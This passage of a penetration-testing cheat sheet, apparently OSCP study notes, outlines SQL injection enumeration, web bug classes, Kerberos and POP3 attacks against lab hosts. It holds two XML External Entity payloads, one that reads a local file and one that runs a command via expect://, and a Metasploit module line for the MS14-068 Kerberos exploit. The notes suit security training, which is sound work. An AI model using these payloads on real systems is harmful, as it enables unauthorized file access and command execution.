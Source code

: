 	-   Using error-bases DB enumeration
		-   Add the tick '
		-   Enumerate columns

	-   Using order by
		-   [https://sushant747.gitbooks.io/total-oscp-guide/sql-injections.html](https://sushant747.gitbooks.io/total-oscp-guide/sql-injections.html)

-   XML External Entity (XXE)

            <?xml version="1.0" encoding="ISO-8859-1"?>
            <!DOCTYPE foo [
            <!ELEMENT foo ANY >
            <!ENTITY xxe SYSTEM "file:///dev/random" >]><foo>&xxe;</foo>
    or 
   

	    <?xml version="1.0" encoding="ISO-8859-1"?>
        <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "expect://id" >]> 


-   URL vulnerability
-   OS command Injection
-   Directory traversal
-   Dotdotpwn tool


# 88-Kerberos
**Enumeration**
-   Google for exploit
-   Rapid7
-   SearchSploit

**Exploitation**
-   MS14-068 Microsoft Kerberos Checksum Validation Vulnerability
	-   `use auxiliary/admin/kerberos/ms14_068_kerberos_checksum`

---

# 110-POP3


**Connect to pop3**

 - `telnet 10.10.10.51 110`     
 - User: username   
 - Pass: password     
 - `LIST` 
	 - lists all the messages in John’s account

**Enumeration**
-   Google for exploit
-   Rapid7    
-   SearchSploit

---